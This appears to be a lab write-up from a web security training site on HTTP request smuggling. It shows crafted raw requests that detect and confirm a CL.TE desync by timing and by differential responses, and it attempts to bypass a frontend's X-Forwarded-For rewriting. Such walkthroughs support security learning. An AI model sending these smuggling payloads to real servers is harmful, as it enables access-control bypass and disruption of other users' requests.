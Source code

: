 So we first try to add `X-Forwarded-For: 127.0.0.1` header, but we still get Unauthorized, because the frontend server overwrites `X-Forwarded-For` header before it gets to the backend server

So we want to figure out if it's CL.TE or TE.CL, let's try doing that by using timing technique:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
x\r\n
```
The response is timing out and that's an indication that there is a CL.TE
So we've got to confirm that with differential responses:

Norm req:
```bash
POST / HTTP/1.1
Host: 0a7a00c80443862881fbb12700510041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 103 # 103 is the exact length from `0\r\n` up until (and including) `x=`
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
GET /jjjjjjjjjj HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
\r\n
x=
```
So we send attack, norm reqs and we get back 404 Not found. It confirms CL.TE

Now we try `X-Forwarded-For` header inside our attack req (in the second part of it)
But we get 401 Unauthorized anyway

So in the lab we have an endpoint that reflects whatever we send in the req body in the response.
This will be our normal request now:
```bash
POST / HTTP/1.1
Host: 0a0300650452a219807280f4006b00c5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

search=jjjj
```
And `jjjj` is reflected in the response
